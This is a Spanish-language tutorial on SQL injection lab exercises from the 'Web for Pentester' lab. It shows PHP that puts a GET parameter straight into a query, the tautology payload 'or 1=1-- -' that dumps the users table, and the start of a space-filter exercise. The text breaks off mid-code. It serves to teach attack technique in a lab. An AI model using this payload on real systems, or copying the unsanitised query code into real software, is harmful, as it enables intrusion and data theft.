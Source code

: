 # Ejercicios de SQL Injection

Les traigo un par de ejercicios encontrados en hackplayers.com (les dejo el link en el pie de pagina)

## Ejercicio 1

En el primer ejercicio al observar el código php del servidor veremos que no hay ningún tipo de validación de entrada sobre el parámetro **$_GET["*name*"]**:

```php
<?php

  require_once('../header.php');
  require_once('db.php');
  // PAY ATTENTION HERE ------------------
    $sql = "SELECT * FROM users where name='";
    $sql .= $_GET["name"]."'";    
    $result = mysql_query($sql);
  // ----------------------------------
    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
  require_once '../footer.php';
?>
```
si inyectamos el siguiente payload:

```
http://pentesterlab/sqli/example1.php?name=root' or 1=1-- -
```
la variable **$sql** será **SELECT * FROM users where name='' or 1=1-- -'** y el servidor nos devolverá todos los registros de la tabla de usuarios:

![tabla example](https://1.bp.blogspot.com/-ajJyb2yKiZU/WJUANoghjGI/AAAAAAAA4fI/4t0JJv4twM8-K72GbMczVyRjHMpWIZv1wCLcB/s1600/webforpentester_sqli_ejercicio1.png)

## Ejercicio 2

En el siguiente paso veremos que se filtra el carácter de espacio en los datos de entrada:

SERVIDOR:
```php
<?php
  require_once('../header.php');
  require_once('db.php');
// PAY ATTENTION HERE --------------
    if (preg_match('/ /', $_GET["name"])) {
        die("ERROR NO SPACE");    
    }
    $sql = "SELECT * FROM users where name='";
    $sql .= $_GET["name"]."'";

    $result = mysql_query($sql);
```